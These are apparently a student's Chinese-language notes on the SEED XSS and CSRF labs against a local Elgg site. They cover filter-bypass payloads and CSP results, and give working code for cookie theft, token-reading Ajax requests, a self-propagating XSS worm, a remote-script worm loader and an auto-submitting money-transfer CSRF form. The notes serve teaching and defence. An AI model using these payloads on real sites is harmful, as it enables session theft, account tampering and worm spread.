## XSS实验
### 实验主题：
• 跨站脚本攻击
• XSS 蠕虫和自我传播
• 会话 cookie
• HTTP GET 和 POST 请求
• JavaScript 和 Ajax
• 内容安全策略（CSP）
### 概述
1. xss攻击原理
   1. 核心攻击链
      ```
             攻击者构造恶意攻击脚本
                      |
        通过用户输入点注入到可信的web页面      
                      |
                受害者访问该页面
                      |
         浏览器将恶意代码当作这次脚本执行        
                      |
              攻击者达成攻击目的
      ``` 
   2. 本质：浏览器无法区分恶意脚本来自开发者还是攻击者，只要脚本在可信域名下，就会执行        
2. xss攻击的目的
   1. 窃取敏感信息（cookie，session token，本地存储的数据等）
   2. 会话劫持（盗用用户身份，执行任意操作）
   3. 网络钓鱼（伪造登陆页面，骗取账号密码）
   4. 网页篡改（修改页面内容，传播虚假信息）
   5. 流量劫持（弹出广告，强制跳转，刷流量）
   6. 网页挂马（址入恶意代码，控制用户设备）
   7. 内网探测（利用受害者设备为跳板进行内网扫描）
   8. 蠕虫传播（结合存储型xss自我复制传播）
   9. 配合其他攻击手段（ssrf，csrf）
3. xss攻击的利用条件
   1. web应用能够接收用户输入（存在输入点）
      1. 表单字段（搜索框，留言板等）
      2. GET/POST参数等
      3. HTTP头部（UA头，Referer等）
      4. 文件上传（文件名，文件内容等）
   2. 将用户的输入输出到回显页面并执行
      1. 直接输出到HTML body
         示例：
            后端
            ```php
            <div class="comment">
                <?php echo $user_comment; ?>
            </div>
            ```
            攻击者输入
            ```html
            <script>alert('XSS');</script>
            ```
            输出的HTML页面
            ```html
            <div class="comment">
                <script>alert('XSS');</script>
            </div>
            ```
            结果：浏览器解析时遇到 \<script\> 标签，直接执行其中的代码
         防御方法：对用户输入进行HTML实体编码后输出
            后端
            ```php
            <div class="comment">
                <?php echo htmlspecialchars($user_comment, ENT_QUOTES, 'UTF-8'); ?>
            </div>
            ```
            输出
            ```html
            <div class="comment">
                &lt;script&gt;alert('XSS');&lt;/script&gt;
            </div>
            ```
            结果：浏览器直接显示`<script>alert('XSS');</script>`这段文字而不是解析执行它
      2. 输出到HTML标签的属性中
         示例：
            后端
            ```php
            <input type="text" value="<?php echo $user_input; ?>">
            ```
            攻击者输入 
            ```html 
            " onclick="alert('XSS')" "
            ```
            输出后的HTML
            ```html
            <input type="text" value="" onclick="alert('XSS')" "">
            ```
            结果:攻击者通过闭合属性的引号注入onclick事件属性，当用户点击该输入框就会触发浏览器解析执行代码`alert('XSS')`
         防御方法：HTML实体编码
      3. 输出到JavaScript代码（用户输入被直接嵌入到 \<script\> 标签内的 JavaScript 代码中，通常作为字符串变量的一部分。）
         示例：
            后端
            ```php
            <script>
                var message = "<?php echo $user_msg; ?>";
                document.write(message);
            </script>            
            ``` 
            攻击者输入
            ```html
            "; alert('XSS'); var dummy="
            ```
            输出后的HTML
            ```html
            <script>
                var message = ""; alert('XSS'); var dummy="";
                document.write(message);
            </script>
            ```
            结果：攻击者通过引号闭合，分号结束该变量赋值语句，从而插入攻击代码alert('XSS');然后通过一个变量赋值语句闭合原本的引号和分号
         防御方法：
            1. 不要让用户的输入直接嵌入JavaScript字符串中
            2. 如果需要嵌入使用JSON编码确保字符串安全
                ```php
                <script>
                    var message = <?php echo json_encode($user_msg, JSON_HEX_TAG); ?>;
                </script>
                ```
            3. 更好的方法是将数据放在HTML的data-*属性中，然后又JavaScript读取
      4. 输出到DOM操作（用户的输入被用于JS的DOM操作函数中，这些函数会动态创建或修改页面内容）
         示例：
            ```html
            <div id="comment-container"></div>
            <script>
                var userInput = "<?php echo $_GET['comment']; ?>";
                document.getElementById('comment-container').innerHTML = userInput;
            </script>
            ``` 
            攻击者输入
            ```html
            
            ```
            执行后的DOM
            ```html
            <div id="comment-container">
                
            </div>
            ```
            结果：由于img的src无效从而触发onerror事件，浏览器解析执行`alert('XSS')`
         危险的DOM操作函数
            innerHTML：解析HTML执行\<script\>和事件
            outerHTML：同上
            insertAdjacentHTML：同上
            document.write()：写入的内容会被解析为HTML
         防御措施：使用安全的DOM操作函数：
            textContent：只写入纯文本
            innerText：只写入纯文本
            createTextNode：只创建文本节点
   3. 缺乏安全防护
      1. 对用户的输入未做充分过滤
      2. 为对输出进行编码
      3. 未设置CSP策略
      4. Cookie未设置HttpOnly
4. xss攻击的利用方法
   1. 基础payload
   2. 绕过技巧
   3. 窃取Cookie
   4. 钓鱼攻击
5. xss攻击的形式
   1. 反射型xss
      特点：
        恶意脚本需要在url参数中
        需要诱导用户点击恶意链接
        一次性攻击，不持久化
      攻击流程：
      ```text
      攻击者在url参数中构造恶意代码
                  |
          诱导用户点击恶意链接
                  |
      恶意代码直接输出到HTML页面中
                  |
         浏览器解析执行恶意代码
                  |
               完成攻击
      ```
      示例：`https://example.com/search?q=<script>alert(1)</script>`
   2. 存储型xss
      特点：
        恶意脚本存储到服务器中（数据库，文件等）
        攻击持久化，影响所有访问用户
        危害最大
      攻击流程：
      ```text
       攻击者提交恶意脚本（留言，评论，用户名等地方）
                         |
          服务器将攻击者提交的内容存储到数据库 
                         |
             用户访问页面时，恶意脚本被加载
                         |
                访问者的浏览器解析执行
      ```
      示例场景：
         论坛评论
         商品评价
         用户昵称
         聊天记录
   3. DOM型xss
      特点：
        漏洞在客户端的js代码中
        不经过服务端，仅在前端处理
        服务端的过滤无法防御
      攻击流程：
      ```text
            用户访问包含漏洞的页面
                     |
        前端JS读取url中的参数或用户输入
                     |
            JS将输入直接写入DOM中
                     |
               浏览器解析执行
      ```
      示例：
        前端代码
        ```javascript
        var name = location.hash.substring(1);
        document.getElementById('welcome').innerHTML = name;
        ```
        攻击者输入的恶意url
        `https://example.com/#<script>alert(1)</script>`
6. 过滤绕过手法
   1. 过滤空格
      绕过手法：
        1. /替代``
        2. Tab替代``
        3. 换行符替代`` 
   2. 过滤引号
      绕过手法：
        1. 不使用引号`` 
        2. 反引号替代引号
   3. 只过滤小写关键字
      绕过手法：大小写绕过
        1. `<ScRiPt>alert(1)</ScRiPt>`
        2. ``
        3. `<BODY ONLOAD=alert('XSS')>`
   4. 只过滤一次关键字
      绕过手法：双写绕过 `<scr<script>ipt>alert(1)</scr</script>ipt>`
  其他绕过手法：
      1. 编码绕过
         1. HTML实体编码【注意不能将标签的<>也编码了，这样会破坏标签结构使浏览器无法正确识别标签从而将代码当作文本输出而不是执行代码】
             ``
         2. url编码【适用于 服务器或 WAF 对 URL 参数进行解码后直接输出到页面 的场景】
            `%3Cscript%3Ealert(1)%3Cscript%3E`
            `%27%3E%3Cscript%3Ealert(1)%3C/script%3E`
         3. JavaScript Unicode 编码
           绕过的关键：当waf看到\u0061\u006c...，这些字符并不直接构成它规则中的alert，于是放行。而浏览器解析这段代码时会先执行unicode解码，还原为原始的字符alert之后再执行js代码 
            1. `<script>a\u006cert(1)</script>`
            2. ``【需要特别注意的是，括号和引号是JavaScript语法的核心组成部分，对它们进行编码很可能破坏语法结构，导致代码执行失败。实战中，这需要对目标JavaScript解析器的行为进行非常精细的测试。】
      2. 特殊字符绕过
         1. NULL字节插入
            ```javascript

            %00"><script>alert(1)</script> //攻击者输入%00"><script>alert(1)</script>，目标是提前闭合value属性。 WAF绕过：WAF可能会检查">这个危险的字符序列。但如果它将%00视为无害字符，或者在对%00解码后没有继续深入分析，就可能无法识别出%00">这个组合的恶意意图。
            ``` 
         2. 异常语法分隔
            ```javascript
            
            ``` 
            onerror='alert(1)'src=a 中，'和src之间没有空格。在某些WAF看来，onerror='alert(1)'后面应该跟一个空格才能解析出下一个属性，没有空格可能导致WAF解析失败，从而放行。浏览器解析器的容错性远高于WAF。即使属性和属性之间没有空格，它也能正确识别出onerror和src是两个不同的属性。它会将'alert(1)'作为onerror的值，src=a作为下一个属性。
      3. 标签与事件处理器绕过（当`<script>`标签被过滤时可使用其他标签）
         1. ````标签用于显示图片。src属性指向图片地址，这里填了一个无效的x。当图片加载失败时，浏览器会触发onerror事件。攻击者将恶意代码绑定在这个事件上，图片加载必然失败，于是alert(1)就被执行了。
         2. `<svg onload=alert(1)>``<svg>`用于绘制矢量图形。它有一个onload事件，当SVG元素加载完成后触发。攻击者直接在`<svg>`标签上绑定onload事件。
         3. `<body onload=alert(1)>``<body>`标签代表HTML文档的主体。onload事件在整个页面加载完成后触发。【果攻击者可以控制页面中的某个标签或属性，就可以注入这个Payload。需要注意，如果页面本身已经有`<body>`标签，需要先闭合原有的属性。】
         4. `iframe src="javascript:alert(1)"``<iframe>`用于在页面内嵌入另一个页面。src属性可以接受一个javascript:伪协议，当iframe加载时，协议中的代码就会执行。
         5. `<object data="javascript:alert(1)">``<object>`用于嵌入外部资源（如Flash、PDF等）。其data属性和`<iframe>`的src类似，也支持javascript:伪协议。
         6. `<form action="javascript:alert(1)"> <input type=submit>``<form>`标签用于提交表单。其action属性指定表单提交的URL，同样支持javascript:伪协议。用户需要点击提交按钮才能触发
         7. `<vedio src=x onerror=alert(1)>` 和``类似，`<video>`标签用于播放视频。如果src指定的视频地址无效，会触发onerror事件。
         8. `<a herf=""javascript:alert(1)>click</a>``<a>`标签用于创建超链接。其href属性同样支持javascript:伪协议，用户点击链接时触发。 
      4. JavaScript层面绕过
         1. 替代点操作符
            `alert(document[cookie])` 
            `with(cookie)alert(dociment)`
         2. 字符串拼接绕过长度限制：
            ```javascript
            <script>
            z = '<script src=';
            z += 'test.c';
            z += 'n/1.js></script>';
            document.write(z);
            </script>
            ``` 
1. xss攻击的危害
   1. 用户层面危害
   2. 企业层面危害
### 实验环境搭建
1. DNS配置
   在/etc/hosts添加本实验需要访问的网站域名的ip域名映射规则
2. 容器配置和命令
    1. 建立容器镜像：
       `dcbuild`
    2. 启动容器：
       `dcup`
        
    3. 在容器中运行命令
       1. 获取容器的id
          `dockps`
          
       2. 获得容器中的shell
          `docksh <id>` 
           
3. Elgg Web应用程序
   1. web服务器（10.9.0.5）
      url：http://www.seed-server.com 
   2. MySQL数据库（10.9.0.6）
      容器通常是一次性的，容器一旦被销毁里面的数据都会丢失
      本实验中将主机中的mysql-data文件夹挂载到MySQL容器中的/var/lib/mysql文件夹（MySQL容器内部存储数据的地方）
      即使关闭或销毁容器，数据仍存在于虚拟机的硬盘中，再次启动容器数据还在
      如果想从头开始可以删除mysql-data文件夹（位于Labsetup目录下，第一次启动MySQL容器后创建）
        `sudo rm -rf mysql-data`
      本实验中提供的一些账号的用户名密码
        
### 基础实验任务（进阶式）
1. 任务一：发布恶意消息以显示警告窗口
   1. 访问`http://www.seed-server.com/`进入登录界面
   2. 利用数据库中已有的任意普通账号进行登录并进入个人资料页面
   3. Edit profile在About me栏中写入恶意代码并保存
      `<script>alert('hello!hacking!');</script>` 
      
   4. 保存之后在自己的界面中已经可以成功弹窗
   5. 切换其他用户登录并访问boby的个人信息验证是否也可以攻击成功
   6. 查看Members中boby的主页也可以成功弹窗，攻击成功！
2. 任务二：显示受害者的Cookie
   1. 继续回到攻击者boby的账户编辑个人信息注入恶意代码
      ```html
        <script>
        alert('hello!hacking!');
        alert('your cookie is'+document.cookie);
        </script>
      ```
      
   2. 保存之后在自己的界面中已经可以弹出Cookie
   3. 切换到其他用户并访问boby个人信息验证攻击是否成功成功弹出访问者自己的Cookie
3. 任务三：从受害者的机器窃取Cookie
   1. cookie接收端准备
      1. `ifconfig`查看一下IP地址
      2. `python3 -m http.server 8888`在终端监听8888端口
      3. 第二种接收方法`nc -lnkvp 8888`
   2. 在个人信息中注入恶意代码
      ```html
        <script>
        document.write('');
        </script>      
      ```
      
   3. 保存并返回到个人信息页面，此时虽然看起来没有什么变化，但是我们回到终端就可以发现boby自己的cookie已经传到了接收端
   4. 切换其他用户访问，验证是否能从其他用户的机器中窃取cookie成功窃取cookie  
4. 任务四：成为受害者的好友【Samy蠕虫】
   1. 用户合法添加好友的原理：浏览器向服务器发送了一个符合要求的http请求
      1. http请求需要包含的三个关键信息 
         1. 身份凭证：告诉服务器我是谁
             如：cookie中的session id
         2. 操作指令：告诉服务器我要干什么
             如：（url）/action/friends/add?friend=42   
         3. 合法性证明证明该请求不是伪造的
             如：__elgg_ts+__elgg_token（CSRF防护）
         三要素缺一不可，服务器依次验证三个要素，全部通过才会执行添加好友的操作
      2. 三要素分别是如何工作的
         1. 身份凭证：cookie/session
             工作原理：
               1. 用户登录时服务器创建刚session会话，生成唯一的session id
               2. 服务器通过响应头的set-cookie字段将session id发送给浏览器
               3. 浏览器存储该cookie，以后每次浏览器向服务器发起的请求中都会自动携带该cookie 
             示例：
             ```http
                GET /action/friends/add?friend=42 HTTP/1.1
                Host: www.seed-server.com
                Cookie: Elgg_session=abc123xyz   ← 这就是身份凭证                
             ``` 
         2. 操作指令：url+参数
            1. 工作原理：
               1. web服务端通过不同的url和参数区分不同的操作
               2. /action/friends/add表示添加好友
               3. ?friend=42表示要添加gid为42的用户为好友
            2. 示例：`GET /action/friends/add?friend=42 HTTP/1.1`
         3. 合法性证明：CSRF Token（__elgg_ts+__elgg_token）
            1. 原理：
                如果只有Cookie和url，攻击者可以在页面中构造恶意链接代码
                `` 
                当用户访问该页面时，浏览器会携带用户cookie自动访问该url，服务器会认为这是用户的合法请求-->CSRF攻击
            2. Elgg防御措施：服务器在页面中动态嵌入两个值__elgg_ts（时间戳）和__elgg_token（随机数），任何状态变更请求（如修改信息，添加好友）都必须携带这两个值，攻击者无法提前知道这两个值
            3. 示例：`GET /action/friends/add?friend=42&__elgg_ts=1234567890&__elgg_token=abc123`
            4. 为什么我能获得这两个值：Elgg把这些值存在了javascript全局对象elgg.security.token中，当恶意脚本运行在受害者页面中时可以直接读取
               ```javascript
                elgg.security.token.__elgg_ts    // 受害者自己的时间戳
                elgg.security.token.__elgg_token // 受害者自己的令牌
               ``` 
               所以恶意脚本可以通过读取这两个值动态构造请求，绕过CSRF
      3. 完整的合法添加好友流程 
          
   2. 核心攻击思路：在攻击者的个人信息中注入Ajax请求代码，使受害者访问攻击者的个人简介页面时浏览器会在不刷新页面的情况下向服务器发送添加好友的请求 
   3. 信息获取
      1. 请求添加好友操作的url格式获取
         在攻击者直接的账号中发起请求添加好友的请求然后抓取数据包分析具体内容通过分析请求头得知请求添加好友操作的url格式为`http://www.seed-server.com/action/friends/add?friend=*&__elgg_ts=*&__elgg_token=*` 请求方法为GET方法
      2. 参数获取
         1. 获取参数friend的值：开发者工具在inspector中ctrl+f查找guid从而获取了参数friend的值为59
         2. 获取参数__elgg_ts和__elgg_token的值：通过elgg.security.token.__elgg_ts和__elgg_token动态获取
         3. Cookie由浏览器自动携带
   4. 构造payload并注入
      ```javascript
        <script type="text/javascript">
          window.onload(){
            var url="http://www.seed-server.com/action/friends/add?friend=59";
            var __elgg_ts='&__elgg_ts='+elgg.security.token.__elgg_ts;
            var __elgg_token='&__elgg_token='+elgg.security.token.__elgg_token;
            var sendurl=url+__elgg_ts+__elgg_token;
            
            Ajax=new XMLHttpRequesr();
            Ajax.open("GET",sendurl,true);
            Ajax.send();
          }
        </script>
      ``` 
      
   5. 验证攻击
      切换到alice账号访问samy的个人信息然后再返回samy账号查看好友列表发现已经成功添加alice        
5. 任务五：修改受害者资料
   1. 攻击思路与任务四大体类似，不在赘述，只是请求方法，url和参数有所不同
   2. 获取修改信息操作请求的url
      1. 在samy自己的账号中修改自己的信息，然后利用开发者工具查看该请求数据包发现修改信息的请求方法是POST方法，请求url为http://www.seed-server.com/action/profile/edit
      2. 点击Request查看具体参数，发现请求体采用multipart格式且参数非常多不过我们在我们自己构造的修改信息请求的请求体中传入需要修改的参数并且采用urlencoded格式即可【**证明身份的参数Cookie；证明请求合法性的参数__elgg_ts、__elgg_token；告诉服务器要修改哪个用户的信息guid；防止服务器进行验证的信息name；权限级别信息accesslevel（不提供则使用默认值2）；我们想要修改的个人信息参数**】 
   3. 获取参数 
      1. Cookie浏览器自动携带
      2. __elgg_ts和__elgg_token通过elgg.security.token动态获取
      3. guid通过elgg.session.user.guid动态获取
      4. name通过elgg.session.user.name动态获取
   4. 构造payload并注入
      ```javascript
        <script>
        window.onload=function(){
            
            url='http://www.seed-server.com/action/profile/edit'
            var guid=elgg.session.user.guid;
            var name=encodeURIComponent(elgg.session.user.name);//为防止name中包含特殊字符导致服务器错误解析需要用encodeURIComponent函数对name变量进行转义
            var __elgg_ts=elgg.security.token.__elgg_ts;
            var __elgg_token=elgg.security.token.__elgg_token;
            content='__elgg_ts='+__elgg_ts+'&__elgg_token='+__elgg_token+'&guid='+guid+'&name='+name+'&description='+encodeURIComponent('hi,hacking!')+'&accesslevel=2';
            if(guid!=59){   //重点！该判断语句是为了防止修改攻击者自己的信息
                var Ajax=null;
                Ajax=new XMLHttpRequest();
                Ajax.open("POST",url,true);
                Ajax.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
                Ajax.send(content);
            }

        }
        </script>
      ``` 
      
   5. 验证攻击
      登录alice账号访问samy主页，观察网络数据包发现在登录的POST请求后面多了一个由samy发起的xhr请求说明已经浏览器发送了修改信息请求进入alice自己的个人信息页面进一步检查发现信息已被修改，证明攻击成功！
6. 任务六：编写自我传播的xss蠕虫【完成添加好友，修改信息，自我复制】
   1. 蠕虫
      1. 关键特征：自动传播，指数增长，持久化
      2. 核心能力：
            执行恶意操作
            进行自我复制（**关键**）
   2. xss蠕虫实现的核心原理：
      ① 注入 ──> ② 传播 ──> ③ 复制 ──> (回到①)  
      ```
        攻击者将能够将蠕虫注入到某个页面 
                     |                   
           用户访问该页面,蠕虫代码执行      
                     |                   
            受害者页面被植入蠕虫代码
      ``` 
   3. 如何实现蠕虫的自我复制能力
      1. 方法一：链接方式
         `<script type="text/javascript" src="http://www.example.com/xss_worm.js"></script>`
         在页面中注入该恶意代码即可，用户访问该页面时浏览器会下载xss_worm.js，该脚本执行恶意操作，向访问者页面再次注入相同的含有蠕虫链接的script标签从而感染访问者实现自动传播 
      2. 方法二：DOM方式
         核心：通过DOM操作函数getElementById获取蠕虫代码
         关键点：
            1. 通过getElementById获取的指定script标签中的内容，不含标签，所以需要手动拼接标签 
            2. 使用if判断语句判断访问者是否是攻击者，防止攻击到自己
            3. 使用encodeURIComponent对实现自我复制部分的数据进行编码防止其中的特殊符号导致服务器错误解析
            4. 手动拼接闭合标签<\/script>时要写成`<\/script>`形式，防止浏览器解析时将标签提前闭合
         构造payload：
            ```javascript
            <script id="xssworm" type="text/javascript">
                window.onload=function(){
                    var __elgg_ts=elgg.security.token.__elgg_ts;
                    var __elgg_token=elgg.security.token.__elgg_token;
                    var url="http://www.seed-server.com/action/friends/add?friend=59";
                    var urlg=url+'&__elgg_ts='+__elgg_ts+'&__elgg_token='+__elgg_token;
                    var urlp="http://www.seed-server.com/action/profile/edit";
                    var guid=elgg.session.user.guid;
                    var name=encodeURIComponent(elgg.session.user.name);
                    var wormcode=document.getElementById("xssworm").innerHTML;
                    var copyworm="<script id='xssworm' type='text/javascript'>"+wormcode+"<\/script>";
                    var content='__elgg_ts='+ __elgg_ts+'&__elgg_token='+ __elgg_token+'&guid='+guid+'&name='+name+'&description='+encodeURIComponent(copyworm)+'&accesslevel=2';

                    if(guid!=59){
                        var Ajaxadd=null;
                        var Ajaxedit=null;
                        Ajaxadd=new XMLHttpRequest();
                        Ajaxedit=new XMLHttpRequest();
                        Ajaxadd.open("GET",urlg,true);
                        Ajaxadd.send();
                        Ajaxedit.open("POST",urlp,true);
                        Ajaxedit.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
                        Ajaxedit.send(content);

                    }
                }
            </script>
            ```
   4. 注入并验证攻击
      1. 将payload写入samy的About me部分并保存
      2. 验证是否成功修改信息：切换到boby账号访问samy的个人信息并注意Network中的数据包发现成功多出来一个由samy发起的修改信息的XHR包
      3. 验证是否成功添加好友：查看好友列表发现成功添加samy为好友
      4. 验证蠕虫是否注入到受害者的个人信息页面：切换到一个新的账号charlie访问boby的个人信息并注意Network中的数据包发现成功多出来一个由boby发起的修改信息的XHR包，由此可知蠕虫已经成功注入到刚刚的受害者boby的个人信息页面中，再查看charlie的好友列表进行进一步验证已经成功添加samy
### 任务七：CSP防御XSS攻击
1. 网站设置
   1. DNS设置：
   2. 实验的网页：
   3. 修改配置文件方法：【注意此方法要重建docker镜像后重启docker，新配置才会生效】
2. 设置CSP策略
   1. 通过Apache设置CSP策略（Apache可以为所有响应设置HTTP头，因此可以为指定的站点添加CSP头）
      
      example32a.com未配置CSP策略 
      example32b.com配置了CSP策略  
   2. 通过网页应用程序设置CSP策略 
      该php程序会在生成的响应中添加CSP头
      将该站点入口设为上面的php程序，从而实现CSP配置 
3. 实验任务【分别访问上述三个站点】
   1. 描述并解释访问网站的结果
      1. 站点http://www.example32a.com/
         1. 现象：六个区域都显示OK说明六个区域的js代码都被浏览器解析执行了
         2. 原因：该站点没有设置CSP策略，浏览器不知道页面中的代码的来源，所以将代码全部解析执行，最终6个区域全部输出解析执行结果【OK】
            代码详解：
            ```javascript
            <p>1. Inline: Nonce (111-111-111): <span id='area1'>Failed</span></p>//<p>和<span>都是HTNML语言用来定义页面结构。id='area1'是HTML属性，给元素起名字方便js查找。Failed纯文本，显示文字内容
            <script type="text/javascript" nonce="111-111-111">
            document.getElementById('area1').innerHTML = "OK";
            </script>//js代码
            ``` 
            浏览器的解析流程：
            ```
                遇到<span>解析渲染-->在页面显示Failed
                                |
                    解析到<script>-->检查CSP策略
                                |
                    未配置CSP策略-->执行js代码
                                |
                 area1中的文字被替换为OK在页面中显示
            ```
            即页面是否显示OK取决于对应该区域的js代码是否执行
      2. 站点http://www.example32b.com/
         1. 现象：只有4，6区域显示OK
         2. 原因：
            1. 该站点配置了CSP策略：CSP配置分析
               `script-src 'self' *.example70.com`设置可信域名为当前网站域名以及example70.com及其子域名，且不允许内联执行
            2. js代码是否被执行：
               1. area1：`<script type="text/javascript" nonce="111-111-111">`内联执行并携带一次性随机码111-111-111，但服务器配置的CSP策略不允许内联执行，所以js代码不会被浏览器解析执行，所以显示Failed
               2. area2：`<script type="text/javascript" nonce="222-222-222">`内联执行并携带一次性随机码222-222-222，不允许内联执行，所以显示Failed
               3. area3：`<script type="text/javascript">`内联执行未携带Nonce，不允许内联执行，所以显示Failed
               4. area4：`<script src="script_area4.js"> </script>`外部链接，链接来源于本站点，在CSP配置的可信域名中，浏览器解析执行js代码，所以显示OK
               5. area5：`<script src="http://www.example60.com/script_area5.js"> </script>`外部链接，链接来源于www.example60.com，不在CSP配置的可信域名中，浏览器不会解析执行js代码，所以显示Failed
               6.area6：`<script src="http://www.example70.com/script_area6.js"> </script>`外部链接，链接来源于www.example70.com，在CSP配置的可信域名中，浏览器解析执行js代码，所以显示OK             
      3. 站点http://www.example32c.com/
         1. 现象：只有区域1，4，6显示OK
         2. 原因：
            1. 该站点配置了CSP策略：CSP配置分析
                
                `script-src 'self' 'nonce-111-111-111' *.example70.com`只允许来自于本站域名，example70.com及其子域名的外部链接和携带一次性随机数111-111-111的内联代码执行
            2. js代码是否被执行：
               1. area1：`<script type="text/javascript" nonce="111-111-111">`内联执行并携带一次性随机码111-111-111，服务器配置的CSP策略允许携带一次性随机数111-111-111的内联代码执行，所以js代码会被浏览器解析执行，所以显示OK
               2. area2：`<script type="text/javascript" nonce="222-222-222">`内联执行并携带一次性随机码222-222-222，与服务器设置的Nonce不同，所以js代码不会被浏览器解析执行，所以显示Failed
               3. area3：`<script type="text/javascript">`内联执行未携带Nonce，所以js代码不会被浏览器解析执行，所以显示Failed
               4. area4：`<script src="script_area4.js"> </script>`外部链接，链接来源于本站点，在CSP配置的可信域名中，浏览器解析执行js代码，所以显示OK
               5. area5：`<script src="http://www.example60.com/script_area5.js"> </script>`外部链接，链接来源于www.example60.com，不在CSP配置的可信域名中，浏览器不会解析执行js代码，所以显示Failed
               6.area6：`<script src="http://www.example70.com/script_area6.js"> </script>`外部链接，链接来源于www.example70.com，在CSP配置的可信域名中，浏览器解析执行js代码，所以显示OK              
   2. 点击网页中的按钮，描述并解释结果
      1. 站点http://www.example32a.com/
         1. 现象：成功弹窗
         2. 原因：该站点没有设置CSP策略，浏览器不知道页面中的代码的来源，所以点击按钮后触发事件属性，浏览器将button标签中的代码解析执行
      2. 站点http://www.example32b.com/
         1. 现象：点击之后不会弹窗
         2. 原因：`<button onclick="alert('JS Code executed!')">`内联执行，当点击触发onclick事件属性时，浏览器检查CSP配置发现不允许内联执行，所以不解析执行该js代码，所以不会触发弹窗
      3. 站点http://www.example32c.com/
         1. 现象：点击之后不会弹窗
         2. 原因：`<button onclick="alert('JS Code executed!')">`内联执行但未携带Nonce，当点击触发onclick事件属性时，浏览器检查CSP配置发现只允许携带Nonce为111-111-111的内联代码执行，所以不解析执行该js代码，所以不会触发弹窗
   3. 修改 example32b 的服务器配置（修改 Apache 配置），使得区域 5 和 6 显示为 OK。请在实验报告中包含您修改后的配置
      1. 修改后的配置
      2. 网站页面显示
   4. 修改 example32c 的服务器配置（修改 PHP 代码），使得区域 1、2、4、5 和 6 都显示为 OK。请在实验报告中包含您修改后的配置。
      1. 修改后的配置
      2. 网站页面显示 
## CSRF实验
### 实验主题
**跨站请求伪造攻击**
**防御CSRF的方法：秘密令牌和同源cookie**
**HTTP GET 和 POST 请求** 
**JavaScript 和 Ajax**
### 概述
1. csrf攻击原理：建立在浏览器的同源策略以及HTTP协议的无状态性（通过Cookie维持状态）之上
   1. SOP严格限制跨站读取网站内容但不限制跨站发送请求（如：允许攻击者的网站向目标网站发起操作请求）
   2. 当浏览器向某域名发送请求时会自动携带该域名下的Cookie
2. CSRF基本攻击流程：
   ```
      受害者的浏览器上登录了目标网站（有该网站Cookie）
                          |
            受害者被诱导访问攻击者的恶意网站链接
                          |
      恶意网站在后台向目标网站发起请求（浏览器中的携带了目标网站下的Cookie）
                          |
      目标网站验证Cookie合法（误以为是受害者的操作请求）
                          |
              执行恶意网站发起的恶意操作请求
   ``` 
3. csrf攻击的目的（冒充受害者进行恶意操作）
   1. 修改账户信息
   2. 进行交易（转账，购物）
   3. 提升权限（将自己设置为管理员）
   4. 破坏数据（删除文件，注销账号）
4. csrf攻击的利用条件
   1. 服务端允许跨站携带Cookie
   2. 服务端未校验请求的Referer和token
   3. 攻击者能够预测请求的格式
5. csrf攻击的利用方法
   1. GET型：利用HTML的自动加载特性发起GET请求
      原理：浏览器在解析`<script><iframe><link>`等标签的src或herf属性时 会自动发起GET请求
      示例：
      ```html
      
      ```
      优点：构造简单直接
      缺点：参数被暴露在URL中，容易被日志记录
   2. POST型：利用自动提交的表单发起POST请求
      原理：构造严格隐藏的form，利用javascript的onload事件或页面加载完成后自动触发submit()
      示例：
      ```html
      <body onload="document.getElementById('csrf-form').submit()">
      <form id="csrf-form" action="http://bank.com/transfer" method="POST">
         <input type="hidden" name="to" value="hacker">
         <input type="hidden" name="money" value="10000">
      </form>
      </body>
      优点：比GET请求隐蔽，不易在日志中看到参数
      缺点：构造略微复杂
      ``` 
   3. JSON型
6. csrf攻击的危害
      资金损失（高危）： 在银行、支付、电商场景中，攻击者可以直接发起转账、下单购买虚拟商品、修改收货地址拦截实物。
      账号接管（高危）： 攻击者通过 CSRF 修改用户密码、绑定邮箱/手机号，从而完全控制账号。
      权限提升与数据篡改： 在企业后台或 CMS 中，CSRF 可用于添加管理员账号、修改系统配置、删除关键数据、发布恶意内容。
      蠕虫式传播（XSS + CSRF）： 如果 CSRF 的利用代码存储在服务器上（如社交网络发帖），配合 XSS 自动点击，可以形成蠕虫，感染所有访问该页面的用户（如早期的 Samy 蠕虫）。
      企业声誉受损： 攻击者利用 CSRF 以官方账号发布不当言论，造成公关危机。
### 实验环境搭建
1. 建立容器镜像并开启
   `dcbuild`
   `dcup`
   容器开启完成
2. Elgg服务器容器
   配置
3. 攻击者服务器容器
   配置 
   由于我们需要在容器内创建网页文件，为了方便，官方将主机上的`Labsetup/attacker`文件夹挂载到容器的`/var/www/attacker`文件夹中。因此在VM中放置于`attacker`文件夹内的网页将被攻击者的网站托管，官方已经在该文件夹内放置了代码的框架
4. DNS配置
    
5. MySQL数据库配置与XSS实验中的相同
### 攻击任务
1. 任务一：进行GET请求的CSRF攻击
   1. 核心思路：设计攻击者的网站页面，利用邮件向受害者发送并诱导点击恶意网址链接，链接跳转到攻击者网站后加载页面，自动向目标网站（携带cookie）发起添加好友操作的GET请求
   2. 获取添加好友操作请求的格式和需要的参数值
       在samy账号上随便加一个好友，利用开发者工具Network查看请求包格式
         1. 请求url：http://www.seed-server.com/action/friends/add
         2. 请求参数：friend=$guid,__egg_ts,__egg_token（该实验环境未开启CSRF Token所以只考虑参数friend即可）,cookie（未开启同源cookie机制，浏览器自动携带cookie）
         3. 找到攻击者自己的guid：
            在profile页面中利用开发者工具inspector。ctrl+F搜索guid关键词获取攻击者自己的guid=59 
   3. 设计攻击者网站页面内容
      1. 要求：能够自动向目标网站发起操作请求（利用``标签自动触发GET请求）
      2. 具体代码：
         ```javascript
         
         ``` 
      3. 修改攻击者网站的相关页面：
         编辑`attacker`目录下的`addfriend.html`文件将请求连接添加到已有的代码框架中 
   4. 向受害者发送邮件
      1. 构造网站跳转链接
         payload`http://www.attacker32.com/addfriend.html` 
      2. 构造诱导邮件并发送给受害者
         邮件发送完成切换到受害者账号 
   5. 受害者点击恶意网站链接
      1. 查看邮箱的新邮件（我的天！！现金大奖！！领！！）
      2. 点击链接发现跳转到了攻击者网站的页面（什么现金大奖！都是骗人的！！~）
      3. 检验是否成功添加好友，在攻击者samy账号上进一步检查攻击成功（不要随便点击未知链接！！）
2. 任务二：进行POST请求的CSRF攻击
   1. 核心思路：设计攻击者的网站页面，利用邮件向受害者发送并诱导点击恶意网址链接，链接跳转到攻击者网站后加载页面内容，自动向目标网站（携带cookie）发起修改信息操作的POST请求
   2. 获取修改信息操作请求的格式和需要的参数值
      1. 在samy账号上修改自己的信息，利用开发者工具Network查看请求包格式
